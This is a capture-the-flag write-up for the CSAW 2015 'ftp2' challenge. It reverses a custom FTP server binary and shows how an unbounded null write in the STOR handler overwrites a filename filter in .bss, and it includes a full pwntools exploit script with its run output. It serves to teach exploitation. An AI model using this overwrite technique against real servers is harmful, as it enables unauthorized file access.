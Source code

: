 This writeup is based off of this writeup:
```
http://blog.bitsforeveryone.com/2015/09/writeup-csaw-2015-exploitables-300-ftp2.html
```

So we continue off of the 300 point reversing challenge ftp. We are dealing with a 64 bit elf, that is an ftp server with basic functionallity. We only have the following basic ftp commands available:

```
user:	designate user to login as
pass:	designate password to use
help:	list available commands
port:	designate a port to listen on
pasv:	designate the server to passively listen
stor:	upload a file to the server
retr:	retrieve a file from the server
list:	list all files in the ftp server's current directorty
pwd:	prints the working directory
cwd:	changes the working directory
syst:	displayes system information
noop:	does nothing
quit:	exit the ftp server
rdf:	solve the reversing challenge
```

So continuing, we left off we were able to log in and run a command which gave us the flag. Let's see what files we have access to using the first connection:

```
$	nc 127.0.0.1 12012
Welcome to FTP server
user blankwall
Please send password for user blankwall
pass cookie
logged in
list
use port or pasv first
pasv
PASV succesful listening on port: 64774
```

so we need to establish a secondary connection to list the files:

```
$	nc 127.0.0.1 64774
```

Now list the files on the first connection

```
list
LIST complete
```

it will output the of all of the files on the secondary connection

```
drwxr-xr-x 1     0     0         4096 Jul 23 13:49 Readme.md
drwxr-xr-x 1     0     0         4096 Jul 23 13:49 exploit.py
drwxr-xr-x 1     0     0         4096 Jul 23 13:49 ftp_0319deb1c1c033af28613c57da686aa7
drwxr-xr-x 1     0     0         4096 Jul 23 13:49 flag.txt
```

the `flag.txt` file looks intersting, let's try to retrieve it

```
retr flag.txt
Invalid character specified
```

So there is an illegal character in the file name for `flag.txt`. Let's see where in the code it does the check using IDA:

```
  file_send_check = 0;
  LODWORD(input) = sub_401A03(argument, *(_QWORD *)(argument + 24));
  filename = (char *)input;
  input_check = (char *)input;
  input_len = strlen(input);
  while ( *input_check != illegal_character )
  {
    if ( !--input_len )
      break;
    ++input_check;
  }
  if ( input_check[1] )
  {
    result = send_func(*(_DWORD *)argument, "Invalid character specified\n");
  }
```

So we can see that in the function for RETR (sub_402104), that it is checking if our input contains a character stored in `illegal_character`. We can see that `illegal_character` is in the bss, and doesn't have an initial value:

```
.bss:0000000000604408 illegal_character dd ?                  ; DATA XREF: login_func+1E5w
.bss:0000000000604408                                         ; retr+67r
```

However when we check the xreferences for `illegal_character`, we can see that it is written to in the login function:

```
      send_func(*(_DWORD *)heap_struct, "logged in\n");
      illegal_character = 0x66;
```

So we can see, that when we are logged in (sub_40159b) it sets the `illegal_character` char equal to 0x66, which is hex for `f`. So the illegal character is `f`, which is in the file we need to read `flag.txt`. Let's see if we can find something in the code that will allow us to get around it.

```
  byte_count = 0;
  LODWORD(argument_struct) = sub_401A03(argument, *(_QWORD *)(argument + 24));
  argument_transfer = argument_struct;
  if ( (signed int)port_check(argument) >= 0 )
  {
    send_func(*(_DWORD *)argument, "transfer starting.\n");
    while ( 1 )
    {
      LODWORD(input) = recv(*(_DWORD *)(argument + 4), write_char, 0xAuLL, 0);
      if ( (signed int)input < 0 )
        break;
      if ( !(_DWORD)input )
        goto LABEL_8;
      byte_count += (unsigned int)input;
    }
    send_func(*(_DWORD *)argument, "error receiving file");
LABEL_8:
    printf("Storing file %s", *(_QWORD *)(argument + 24));
    write_char[(signed __int64)(signed int)byte_count] = 0;
```

We find something that can do the job in the function for the stor command (sub_401df9), either by searching through the code or finding the `write_char` char before `illegal_character` in the bss. Looking over the code, we can see that it never actually writes the file to the disk, however it scans it into memory. Note that  it only scans in ten bytes of data at a time, however the byte count isn't reset. And we can see that in order to null terminate the input, it will write zero to whatever is x bytes after `write_char` with x being equal to `byte_count`.

```
.bss:0000000000604200 ; char write_char[]
.bss:0000000000604200 write_char      db ?                    ; DATA XREF: sub_401AD7:loc_401BADo
```

Remember that `illegal_char` is after `write_char` so we will be able to write the signle null byte over the `f` character, and that should allow us to read the `flag.txt` file. First let's calculate the offset:

```
>>> 0x604408 - 0x604200
520
```

So we can see that the offset is 520 bytes, however with the newline character that we have to send in addition to the data we need to only send 519 bytes worth of data. So our exploit will essentially involve storing a file with 519 characters which will overwrite the illegal character with a null byte, then we will be able to read `flag.txt`. here is the exploit:

```
#Import pwntools
from pwn import *

#Start the server
server = process("./ftp_0319deb1c1c033af28613c57da686aa7")

#Connect to the server, and log in
target = remote("127.0.0.1", 12012)
target.recvline()
target.sendline("user blankwall")
target.recvline()
target.sendline("pass cookie")
target.recvline()

#Establish the first secondary remote connection to transfer the file
target.sendline("pasv")
p0 = target.recvline()
p0 = p0.replace("PASV succesful listening on port: ", "")
p0 = p0.replace("\n", "")
print "port 0 is: " + p0 
r0 = remote("127.0.0.1", p0)

#Transfer the file to write over the illegal character 'f'
target.sendline("stor pwn")
payload = "0"*519
r0.sendline(payload)
r0.close()
print target.recvuntil("transfer complete\n")

#Establish the secondary connection to retrieve the flag.txt file
target.sendline("pasv")
p1 = target.recvline()
p1 = p1.replace("PASV succesful listening on port: ", "")
p1 = p1.replace("\n", "")
print "port 1 is: " + p1 
r1 = remote("127.0.0.1", p1)

#Retrieve and print the flag.txt file
target.sendline("retr flag.txt")
print r1.recvline()
r1.interactive()

#Drop to an interactive prompt, and 
target,interactive()
#gdb.attach(server)
```

Let's test it:

```
$	python exploit.py 
[+] Starting local process './ftp_0319deb1c1c033af28613c57da686aa7': pid 2239
[+] Opening connection to 127.0.0.1 on port 12012: Done
port 0 is: 63663
[+] Opening connection to 127.0.0.1 on port 63663: Done
[*] Closed connection to 127.0.0.1 port 63663
transfer starting.
transfer complete

port 1 is: 64969
[+] Opening connection to 127.0.0.1 on port 64969: Done
flag{exploiting_ftp_servers_in_2015}

[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```

Just like that, we pwned the binary!
